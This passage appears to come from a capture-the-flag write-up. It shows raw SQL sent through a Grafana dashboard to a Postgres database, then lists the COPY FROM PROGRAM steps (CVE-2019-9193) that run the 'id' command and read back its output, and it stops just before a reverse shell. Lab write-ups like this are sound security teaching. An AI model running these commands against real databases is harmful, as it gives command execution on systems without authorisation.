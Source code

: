 This is just the data for the dashboard.

### PostGres Execution

#### Query POC

It seems as if I can send raw Postgres queries into the database. I’ll send this request to Repeater and try editing the `rawSql` field to a simple `select version()`:

![image-20230831161136180](/img/image-20230831161136180.png)

It returns all the details. This has actually be raised as an [issue on GitHub](https://github.com/grafana/grafana/issues/32043) and the creator said it will be a long time before this is fixed! Someone on the thread calls this SQL injection, but it’s more like straight up raw SQL querying.

#### RCE POC

I can use this to enumerate the database, but there’s nothing really important there to find.

[This post](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) talks about turning Postgres queries into command execution, which was given the ID CVE-2019-9193. It’s not really a CVE as much as it is a feature that is easily abused.

The post outlines the following steps:
1. `DROP TABLE IF EXISTS cmd_exec;` - remove the `cmd_exec` table if it exists; this returns a `results` structure with no values.
2. `CREATE TABLE cmd_exec(cmd_output text);` - create a table to store command output in; this returns a `results` structure with no values.
3. `COPY cmd_exec FROM PROGRAM 'id';` - get the results of the `id` command into the table; this returns a `results` structure with no values. It is important to get regularly single quotes, not the fancy once that copy out of the post.
4. `SELECT * FROM cmd_exec;` - display the results - this returns a `results` structure with a bunch of stuff, most importantly:

   ```

   "data": {
       "values": [
           [
               "uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)"
           ]
       ]
   }

   ```

That’s RCE!

#### Shell

To get a shell, I don’t have to recreate the table or worry about the output. I’ll pull up the third command above and replace `id` with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
